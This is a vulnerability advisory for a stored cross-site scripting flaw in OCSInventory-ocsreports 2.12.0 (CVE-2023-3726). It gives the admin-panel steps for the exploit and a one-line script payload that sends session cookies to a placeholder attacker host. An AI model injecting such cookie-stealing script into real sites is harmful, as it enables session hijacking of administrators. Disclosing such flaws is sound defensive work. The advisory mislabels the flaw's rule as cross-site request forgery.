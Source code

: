 ```yaml
---
slug: advisories/creed/
title: OCSInventory-ocsreports 2.12.0 - Stored cross-site Scripting
authors: Ronald Hernandez
writer: rhernandez
codename: creed
product:  OCSInventory-ocsreports2.12.0 - Stored cross-site Scripting
date: 2023-07-17 12:00 COT
cveid: CVE-2023-3726
severity: 4.9
description: OCSInventory-ocsreports2.12.0 - Stored cross-site Scripting
keywords: Fluid Attacks, Security, Vulnerabilities, Xss, Csrf, Ocs Inventory, Ocs Reports
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                |
| --------------------- | ---------------------------------------------------------------|
| **Name**              | OCSInventory-ocsreports 2.12.0 - Stored cross-site Scripting   |
| **Code name**         | [Creed](https://en.wikipedia.org/wiki/Creed_(band))            |
| **Product**           | OCSInventory                                                   |
| **Affected versions** | Version 2.12.0                                                 |
| **State**             | Private                                                        |
| **Release date**      | 2023-07-17                                                     |

## Vulnerability

|                         |                                                                                                |
| ----------------------- | -----------------------------------------------------------------------------------------------|
| **Kind**                | Stored cross-site Scripting                                                                    |
| **Rule**                | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/010)  |
| **Remote**              | Yes                                                                                            |
| **CVSSv3.1 Vector**     | CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N                                                   |
| **CVSSv3.1 Base Score** | 4.9                                                                                            |
| **Exploit available**   | Yes                                                                                            |
| **CVE ID(s)**           | [CVE-2023-3726](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3726)                  |

## Description

OCSInventory allow stored email template with special
characteres that lead to a Stored cross-site Scripting.

## Vulnerability

A cross-site scripting (XSS) vulnerability has been identified
in OCSInventory-ocsreports, which could potentially allow an
attacker to steal sensitive data such as session cookies.
It is also possible to steal the password hash if the attacker
changes the server state to debug, this due to the server in
debug mode displaying the hash.This could be exploited if
the target is an administrator with a current login session.

## Exploitation

To exploit this vulnerability we need to go to  the Portal of
ocsreports -> Configuration -> Notification -> Customize
Template and Upload a HTML file with our payload:

![1](https://user-images.githubusercontent.com/87587286/254076644-2b47f9c3-d9b4-46fb-8110-a24fd8672541.png)

![2](https://user-images.githubusercontent.com/87587286/254074275-fee41556-a83e-43c7-aedc-35bc9c7acb81.png)

```html
<script>
new Image().src="http://ourattacker-pc.com/?cookie="+document.cookie;
</script>
```

Note that only administrators can make changes to the mail template.

## Evidence of exploitation

![poc](https://user-images.githubusercontent.com/87587286/254074571-db7d5cd7-a661-4873-8850-5fbe2f8d82fc.gif)

## Our security policy

We have reserved the ID CVE-2023-3726 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OCSInventory-ocsreports v2.12.0

* Operating System: Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by
[Ronald Hernandez](https://www.linkedin.com/in/ronald91)
from Fluid Attacks' Offensive Team.

## References

**Vendor page** <https://ocsinventory-ng.org/>

## Timeline

<time-lapse
  discovered="2023-07-17"
  contacted="2023-07-17"
  replied=""
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>